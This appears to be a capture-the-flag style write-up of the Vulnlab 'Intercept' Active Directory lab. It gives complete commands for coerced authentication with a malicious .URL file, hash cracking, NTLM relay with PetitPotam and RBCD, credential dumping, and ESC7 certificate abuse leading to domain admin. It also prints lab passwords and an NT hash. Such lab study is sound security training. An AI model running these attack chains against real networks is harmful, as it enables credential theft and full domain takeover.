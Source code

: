 ```yaml
---
title: Vulnlab Chain - Intercept
date: 2024-02-19
categories: [vulnlab]
tags: [AD]
pin: false
---
```


## Vulnlab Chain - Intercept
Intercept is a hard rated chain which contains two machines WS01 and DC01. The chain starts with forced authentication using a file upload to grab a users hash. Using this used we performed the Resourced Based Contrained Delegation (RBCD) WebClient attack to escalate privileges. Finally using ESC7 we elevate privileges to Domain Admin.

![_install](/assets/img/VL-Intercept/intercept_slide.png)

## Initial Access
Starting off I added the following to the /etc/hosts file:
```bash
10.10.185.69 intercept.vl
10.10.185.69 DC01.intercept.vl
10.10.185.70 WS01.intercept.vl
```

I started off with some nmap scans and quickly noticed that it was possible to access the dev share using a null session.
![_install](/assets/img/VL-Intercept/null_session_dev.png)

Using this null session I entered the "dev" share and looked through the directories for interesting information.

![_install](/assets/img/VL-Intercept/null_session_dev_2.png)

Something that stood out to me is that there is a "readme.txt" file which says that the share is checked regulary for updates. This for me immediately triggered "coerced authentication". We can craft a malicious .URL file that triggers an authentication request to our SMB listener when someone accesses the share. We can then attempt to relay or crack the authentication request. I crafted the following .URL payload:

```bash
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.8.0.49\%USERNAME%.icon
IconIndex=1
```
And uploaded it to the share using an smbclient session:

![_install](/assets/img/VL-Intercept/file_upload.png)

Next, I set up Responder with an SMB listener to capture the NTLMv2 hash of the Kathryn.Spencer Domain User:

![_install](/assets/img/VL-Intercept/responder.png)

Sadly I can't relay the connection to the Domain Controller because SMB Signing is enabled. However I always make sure to check this using netexec:

![_install](/assets/img/VL-Intercept/signing_enabled.png)

Despite SMB Signing being enabled by default on the Domain Controller, which prevents direct connection relaying, I decided to attempt cracking the hash with hashcat:

```bash
hashcat -a 0 -m 5600 hash.txt /opt/rockyou.txt
```
This succesfully recovered the password which ended up being "Choclate1". 
![_install](/assets/img/VL-Intercept/cracked_hash.png)

## Domain Enumeration
Now that we have a valid Domain account we can enumerate the domain using bloodhound. Let's run the python remote ingestor to collect some data:

```bash
bloodhound.py -d intercept.vl -v --zip -c All -dc DC01.intercept.vl -ns 10.10.185.69 -u 'Kathryn.spencer' -p 'Chocolate1' --dns-timeout 10
```
![_install](/assets/img/VL-Intercept/bloodhound.png)

The user Kathryn.Spencer doesn't have any interesting outbound permissions.

![_install](/assets/img/VL-Intercept/bloodhound_enum.png)

I enumerated the Domain more and figured out that the MachineAccountQuota has the default setting of "10".
![_install](/assets/img/VL-Intercept/maq.png)

And also figured out that the Domain Controller doesn't have LDAP Signing enforced:

![_install](/assets/img/VL-Intercept/ldap_signing.png)

If the WebDAV service is also enabled we can perform an RBCD WebClient attack using coerced authentication such as PetitPotam. Lets check if the WebDAV service is active using netexec:
![_install](/assets/img/VL-Intercept/webdav_client.png)

## RBCD to Local Administrator
Now that we know that the WebDAV service is active on WS01, LDAP Signing is disabled on the DC, and we can add machine accounts to the domain, we can abuse these conditions in combination with coerced authentication to escalate privileges. However, when relaying our coercion and add RBCD permissions to WS01 the authenticated connection has to originate from a trusted intranet zone. Luckly for us by default the "Authenticated Users" group can create child objects on the ADIDNS zone. Lets start off the attack by create a new A-record which points to our machine using dnstool.py:
```bash
dnstool.py -u 'intercept\kathryn.spencer' -p 'Chocolate1' -a add -r kali -d 10.8.0.49 10.10.185.69
```
![_install](/assets/img/VL-Intercept/dnstool.png)
Next is starting ntlmrelayx for relaying the coerced authentication:
```bash
ntlmrelayx.py -t ldaps://10.10.185.69 --delegate-access --http-port 8080 -smb2support
```
![_install](/assets/img/VL-Intercept/ntlmrelayx.png)
Finishing off we coerce authenticated using PetitPotam to our created DNS record which is in trusted intranet zone which gets relayed to the Domain Controller to allow impersonation on WS01$ via S4U2Proxy. We can trigger the coercion using PetitPotam like so:
```bash
petitpotam.py -d "intercept.vl" -u "kathryn.spencer" -p "Chocolate1" kali@8080/a 10.10.185.70
```
![_install](/assets/img/VL-Intercept/petitpotam.png)

And if we now take a look at ntlmrelayx we see that a new computer has been created which allows us the impersonate users via S4U2Proxy:
![_install](/assets/img/VL-Intercept/relay_ok.png)

Next we request a TGT for the CIFS service as the Administrator on the WS01 computer using getST.py:
```bash
getST.py -spn cifs/WS01.intercept.vl -dc-ip 10.10.185.69 -impersonate administrator intercept.vl/PMZKVLGA$:'.Wpkn,gC7Xpd}9S'
```
![_install](/assets/img/VL-Intercept/TGT.png)

Now we export the TGT in memory and run secretsdump.py to obtains logon information.
```bash
export KRB5CCNAME=administrator@cifs_WS01.intercept.vl@INTERCEPT.VL.ccache 
secretsdump.py administrator@WS01.intercept.vl -k -no-pass
```
![_install](/assets/img/VL-Intercept/secretsdump1.png)
This reveals the password of the user Simon_Bowen. Lets check bloodhound if this user have any interesting permissions which we can abuse. Lookup at the output we can see that the user is member of the helpdesk groups which has GenericAll permissons on the ca-managers group. 

![_install](/assets/img/VL-Intercept/perms1.png)

Now lets run certipy to find if this group have any intersting permissions:
```bash
certipy find -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69
```
Looking at the output we see that the ca-managers group has ManageCa permission on the Certificate Authority which makes it vulnerable to ESC7
![_install](/assets/img/VL-Intercept/esc7.png)

## AD CS Misconfiguration (ESC7)
To be able to abuse ESC7 we first need to add Simon.Bowen to the ca-managers group. This is possible because the group that he is part of (helpdesk) has GenericAll permissions on the group. We can add Simon to the group using net rpc:
```bash
net rpc group addmem 'ca-managers' 'Simon.Bowen' -U intercept.vl/Simon.Bowen -S DC01.intercept.vl 
```
To verify the user has been succesfully added to the group I re-ran bloodhound a confirmed Simon.Bowen is now part of the ca-managers group:
![_install](/assets/img/VL-Intercept/perms2.png)

Now that we have suffient permissions we can perform the ESC7 attack on the AD CS. First I added myself the Managed Certificated accces right by adding myself as a new officer:
```bash
 certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.183.85 -ca intercept-DC01-CA -add-officer simon.bowen
```
![_install](/assets/img/VL-Intercept/esc7-p1.png)
Now we check if the SubCA template can be enabled on the CA using the -enable-template parameter. By default the SubCA template is enabled.
```bash
certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca intercept-DC01-CA -list-template
```
![_install](/assets/img/VL-Intercept/esc7-p2.png)
Now that we have all the prerequisites for this attack we can start by request a certificate based on the SubCA template. This request will be benied but we will save the private key and note down the request ID:
```bash
certipy req -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca intercept-DC01-CA -template 'SubCA' -upn administrator@intercept.vl -target intercept.vl
```
![_install](/assets/img/VL-Intercept/esc7-p3.png)

Having the manage certificate rights we can validate the failed request since we have the key:
```bash
certipy ca -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca 'intercept-DC01-CA' -issue-request 5
```
![_install](/assets/img/VL-Intercept/esc7-p4.png)
Now that we certificate is issued we can retrieve the administrator's certificate:
```bash
certipy req -u Simon.Bowen -p 'b0OI_fHO859+Aw' -dc-ip 10.10.185.69 -ca 'intercept-DC01-CA' -target intercept.vl -retrieve 5
```
![_install](/assets/img/VL-Intercept/esc7-p5.png)

Now that we have a certificate of the administrator we can use it to authenticate and retrieve the NT hash:
```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.185.69 -domain intercept.vl -username administrator
```
![_install](/assets/img/VL-Intercept/esc7-p6.png)

We can use this hash to gain access the the DC using netexec:
```
nxc smb DC01.intercept.vl -u Administrator -H ad95c338a6cc5729ae7390acbe0ca91f -x whoami
```
![_install](/assets/img/VL-Intercept/da_access.png)











